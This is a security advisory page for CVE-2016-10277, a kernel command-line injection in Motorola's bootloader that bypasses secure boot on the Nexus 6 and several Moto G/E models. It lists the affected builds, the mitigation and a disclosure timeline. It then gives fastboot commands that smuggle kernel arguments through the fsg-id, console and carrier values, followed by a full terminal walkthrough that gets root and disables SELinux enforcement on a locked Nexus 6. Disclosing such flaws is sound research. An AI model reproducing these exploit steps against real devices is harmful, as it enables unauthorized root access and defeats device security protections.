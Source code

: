 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'release'
      date: '2017-05-23'
    - type: 'vendor-advisory'
      date: '2017-05-01'
      arg: 'Android Security'
    - type: 'add'
      date: '2017-03-01'      
    - type: 'report'
      date: '2016-12-21'
      arg: 'Android Security'
    - type: 'products-add'
      date: '2017-06-07'
      arg: 'Moto G4 & Moto G5'
    - type: 'products-add'
      date: '2017-06-12'
      arg: 'Moto G3, Moto G4 Play (XT1609), Moto G5 Plus'
    - type: 'products-add'
      date: '2017-06-13'
      arg: 'Moto G2'
    - type: 'products-add'
      date: '2017-06-22'
      arg: 'Moto E CDMA'
    - type: 'products-add'
      date: '2017-07-11'
      args: 'Moto G4 Play (XT1607)'

alephid: ALEPH-2017011
date: '2017-05-23'
severity: 'critical'
product: 
    - Google Nexus 6
    - Moto G5
    - Moto G4
    - Moto G5 Plus ([community reported](https://github.com/alephsecurity/initroot/issues/1))
    - Moto G4 Play XT1609 ([community reported](https://twitter.com/utoprime/status/873941023050919936))
    - Moto G4 Play XT1607 ([community reported](https://github.com/m-mullins/InitRoot_Harpia))
    - Moto G3 ([community reported](https://twitter.com/asiekierka/status/873467107090075648))
    - Moto G2 ([community reported](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740))
    - Moto E CDMA ([community reported](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648))
    - Other Motorola devices (unconfirmed)
vulnerable: 
    - 'Nexus 6: N6F26Y and earlier.'
    - 'Moto G4: MPJ24.139-63, NPJ25.93-14, NPJS25.93-14.4, other unconfirmed'
    - 'Moto G5: NPP25.137-33, other unconfirmed'
    
mitigation: 'Install Android 7.1.1 N6F27C or later. (Nexus 6)'
    
cve: 'CVE-2016-10277'
title: 'Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass'
references:
    - src: "Google's Advisory (May 2017)"
      url: 'https://source.android.com/security/bulletin/2017-05-01#eop-in-motorola-bootloader'
    - src: 'Factory Images for Nexus and Pixel Devices'
      url: 'https://developers.google.com/android/images'
---
```

Motorola `ABOOT` (Applications Bootloader) contains several arguments that can be controlled through the fastboot interface, even if the bootloader is locked:

On Nexus 6:
```xml
$ fastboot oem config
[...]
(bootloader) <UTAG name="battery" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Battery detection control
(bootloader)     ("meter_lock" or "no_eprom")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="bootmode" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     To force certain bootmode
(bootloader)     (valid values are "fastboot", "factory", "bp-tools", "q
(bootloader)     com", and "on-device-diag")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="carrier" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Carrier IDs, see http://goo.gl/lojLh3
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="console" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Config kernel console log
(bootloader)       enable|true     - enable with default settings
(bootloader)       disable|false   - disable
(bootloader)       <config string> - enable with customized settings
(bootloader)       (e.g.: "ttyHSL0", "ttyHSL0,230400,n8")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.048s]
finished. total time: 0.048s
```
The `fsg-id`, `carrier` and `console` parameters can contain arbitrary values, which eventually propagate to the kernel command line.
Now, if the bootloader didn't sanitize these arguments, one could pass arbitrary kernel command line arguments:

```terminal
$ fastboot oem config console "a foo=0 "
$ fastboot oem config fsg-id "a bar=1"
$ fastboot oem config carrier "a baz=2"
```

And indeed, in build `N6F26Y` and earlier:
<div class="language-terminal highlighter-rouge"><pre class="highlight"><code>shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: <span class="kv">console</span>=<span class="nc">a foo=0 </span>,115200,n8 earlyprintk 
<span class="kv">androidboot.console</span>=<span class="nc">a foo=0 </span> androidboot.hardware=shamu msm_rtb.filter=0x37
ehci-hcd.park=3 utags.blkdev=/dev/block/platform/msm_sdcc.1/by-name/utags
utags.backup=/dev/block/platform/msm_sdcc.1/by-name/utagsBackup coherent_pool=8M
vmalloc=300M buildvariant=user androidboot.bootdevice=msm_sdcc.1 androidboot.serialno=ZX1G427V97
androidboot.baseband=mdm androidboot.version-baseband=D4.01-9625-05.45+FSG-9625-02.117
androidboot.mode=normal androidboot.device=shamu androidboot.hwrev=0x83A0
androidboot.radio=0x7 androidboot.powerup_reason=0x00004000 androidboot.bootreason=reboot
androidboot.write_protect=0 restart.download_mode=0 <span class="kv">androidboot.fsg-id</span>=<span class="nc">a bar=1</span>
androidboot.secure_hardware=1 androidboot.cid=0xDE androidboot.wifimacaddr=F8:CF:C5:9F:8F:EB
androidboot.btmacaddr=F8:CF:C5:9F:8F:EA mdss_mdp.panel=1:dsi:0:qcom,mdss_dsi_mot_smd_596_QHD_dualmipi0_cmd_v0
androidboot.bootloader=moto-apq8084-72.02 <span class="kv">androidboot.carrier</span>=<span class="nc">a baz=2</span> androidboot.hard&lt;
</code></pre>
</div>

## Proof-of-Concept ##

A root exploit for Nexus 6 is demonstrated. PoC is available at our [GitHub research repo](https://github.com/alephsecurity/initroot). 
The following shows a successful attack:

```terminal
$ adb root
adbd cannot run as root in production builds

$ adb shell
shamu:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
shamu:/ $ getenforce
Enforcing
shamu:/ $ setenforce permissive
setenforce: Couldn't set enforcing status to 'permissive': Permission denied
shamu:/ $ reboot bootloader

$ fastboot getvar unlocked
[...]
unlocked: no
finished. total time: 0.008s

$ fastboot oem config fsg-id "a initrd=0x11000000,1518172"
[...]
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x11000000,1518172
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.016s]
finished. total time: 0.016s

$ fastboot flash aleph malicious.cpio.gz
[...]
target reported max download size of 536870912 bytes
sending 'aleph' (1482 KB)...
OKAY [  0.050s]
writing 'aleph'...
(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished. total time: 0.054s

$ fastboot continue
[...]
resuming boot...
OKAY [  0.007s]
finished. total time: 0.007s

$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
shamu:/ # getenforce
Enforcing
shamu:/ # setenforce permissive
shamu:/ # getenforce
Permissive
shamu:/ #
```
